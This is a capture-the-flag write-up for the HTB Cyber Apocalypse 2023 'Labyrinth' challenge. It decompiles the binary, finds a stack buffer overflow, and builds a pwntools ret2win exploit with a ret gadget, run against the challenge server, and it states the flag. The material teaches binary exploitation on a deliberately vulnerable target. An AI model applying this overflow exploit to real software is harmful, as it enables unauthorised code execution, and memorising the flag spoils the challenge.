



# Labyrinth - HTB Cyber Apocalypse 2023

This is the first pwn challenge in HTB Cyber Apocalypse 2023, which requires us to do some investigating on our own

**NOTE:** This is the only one of my simple challenge writeups which I go into detail with the reversing and the exploitation of the binary. In all my other writeups for HTB CA 2023 I will NOT be going into this much detail. This writeup is mostly for people new to binary exploitation and not for the veterans, who can solve this in under 5 minutes.

**TLDR;** Send "69" as input to the first prompt. Overflow at the 2nd prompt and jump to the escape_plan function to get the flag.

## Reversing

### First quick checks

First we run checksec to check the protections:

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'./glibc/'
```

No PIE and no canary, may indicate this binary is a buffer overflow challenge.

`file` reveals the binary is not stripped and dynamically linked:

```
labyrinth: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=86c87230616a87809e53b766b99987df9bf89ad8, for GNU/Linux 3.2.0, not stripped
```

### Decompilation

We can decompile the binary in ghidra to grant us a decompilation of the binary.

After cleanup of main we are left with the following code:

```C
{
  int cmp;
  char *__s;
  char userbuf [32];
  ulong door_num;

  setup();
  banner();
  userbuf._0_8_ = 0;
  userbuf._8_8_ = 0;
  userbuf._16_8_ = 0;
  userbuf._24_8_ = 0;
  fwrite("\nSelect door: \n\n",1,0x10,stdout);
  for (door_num = 1; door_num < 0x65; door_num = door_num + 1) {
    if (door_num < 10) {
      fprintf(stdout,"Door: 00%d ",door_num);
    }
    else if (door_num < 100) {
      fprintf(stdout,"Door: 0%d ",door_num);
    }
    else {
      fprintf(stdout,"Door: %d ",door_num);
    }
    if ((door_num % 10 == 0) && (door_num != 0)) {
      putchar(10);
    }
  }
  fwrite("\n>> ",1,4,stdout);
  __s = (char *)malloc(0x10);
  fgets(__s,5,stdin);
  cmp = strncmp(__s,"69",2);
  if (cmp != 0) {
    cmp = strncmp(__s,"069",3);
    if (cmp != 0) goto LAB_004015da;
  }
  fwrite("\nYou are heading to open the door but you suddenly see something on the wall:\n\n\"Fly li ke a bird and be free!\"\n\nWould you like to change the door you chose?\n\n>> "
         ,1,0xa0,stdout);
  fgets(userbuf,0x44,stdin);
LAB_004015da:
  fprintf(stdout,"\n%s[-] YOU FAILED TO ESCAPE!\n\n",&DAT_00402541);
  return 0;
}
```

Let's break this down on what it does

1. Asks us to select a door
2. Prints the 100 door choices
3. Waits for us to input the door
4. Compares our input against "69" or "069".
5. If input is correct we goto 6. Otherwise we go to 8
6. Asks us if we'd like to change the door
7. Waits for our input
8. Tells us we failed to escaped
9. Exits

It becomes apparent that we first should provide the door number 69 to pass the first check.

The 2nd choice has a buffer overflow inside of it, as it's trying to read 0x44 into a 0x20 sized buffer.

Looking further into the decompilation, we can also see a function called escape_plan which is never called:

```C
void escape_plan(void)

{
  ssize_t bytes_read;
  char flag_char;
  int flag_fd;

  putchar(10);
  fwrite(s__\O/_|_/_\_-_-_-_-_00402018,1,0x1f0,stdout);
  fprintf(stdout,
          "\n%sCongratulations on escaping! Here is a sacred spell to help you continue your journey : %s\n"
          ,"\x1b[1;32m","\x1b[0m");
  flag_fd = open("./flag.txt",0);
  if (flag_fd < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    bytes_read = read(flag_fd,&flag_char,1);
    if (bytes_read < 1) break;
    fputc((int)flag_char,stdout);
  }
  close(flag_fd);
  return;
}
```

escape_plan simply prints out the flag.

This makes the challenge a simple ret2win challenge, where you have to overwrite the return pointer on the stack to return to the escape_plan function and print the flag.

### Exploitation

First we'll write some code to pass the first check, so we can send input for the 2nd one:

```py
from pwn import *

gdbscript = """
b *main
c
"""

io = gdb.debug("./labyrinth",gdbscript=gdbscript)

io.recvuntil(b'>>')
io.sendline(b'69')
io.recvuntil(b'>>')

io.interactive()
```

This simply receives output from the program untill it's asking for input. Sends the correct door number to hit the 2nd prompt and waits untill it's prompted to send input again.

We can now send a cyclic pattern to figure out the point where we overflow into the return pointer and break at the address where main returns:

```py
from pwn import *

gdbscript = """
b *0x0000000000401602
c
"""

io = gdb.debug("./labyrinth",gdbscript=gdbscript)

io.recvuntil(b'>>')
io.sendline(b'69')
io.recvuntil(b'>>')

padding = cyclic(0x44)
io.sendline(padding)

io.interactive()
```

We can then inspect the top value on the stack in gdb. The first 4 characters are the cyclic pattern we are looking for



In this case it's `oaaa`

We can now find the offset of this pattern and only send bytes up untill this point.

Then we can send the address of escape_plan to return to there instead

```py
from pwn import *

gdbscript = """
b *0x0000000000401602
c
"""

io = gdb.debug("./labyrinth",gdbscript=gdbscript)

io.recvuntil(b'>>')
io.sendline(b'69')
io.recvuntil(b'>>')

padding = cyclic_find(b'oaaa') * b'A'
escape_plan = p64(0x401255)

io.sendline(padding+escape_plan)

io.interactive()
```



We now jump into escape_plan instead. However the application still crashes inside of escape_plan.

This is because the stack is misaligned. If you're interested in why this happens you can check out the beginner's guide on [ROP Emporium](https://ropemporium.com/guide.html)

But this is a non-issue as we can just pad our payload with a ret gadget and the stack will be aligned again!

```py
from pwn import *

gdbscript = """
b *0x0000000000401602
c
"""

io = gdb.debug("./labyrinth",gdbscript=gdbscript)

io.recvuntil(b'>>')
io.sendline(b'69')
io.recvuntil(b'>>')

padding = cyclic_find(b'oaaa') * b'A'
escape_plan = p64(0x401255)
ret = p64(0x0000000000401016)

io.sendline(padding+ret+escape_plan)

io.interactive()
```

And we now get the flag when debugging!

Next we just check if it works running with process and then fire it off on the remote instance:

```py
from pwn import *

gdbscript = """
b *0x0000000000401602
c
"""

io = remote("165.232.98.69",32642)

io.recvuntil(b'>>')
io.sendline(b'69')
io.recvuntil(b'>>')

padding = cyclic_find(b'oaaa') * b'A'
escape_plan = p64(0x401255)
ret = p64(0x0000000000401016)

io.sendline(padding+ret+escape_plan)

io.interactive()
```



## Flag:

`HTB{3sc4p3_fr0m_4b0v3}`
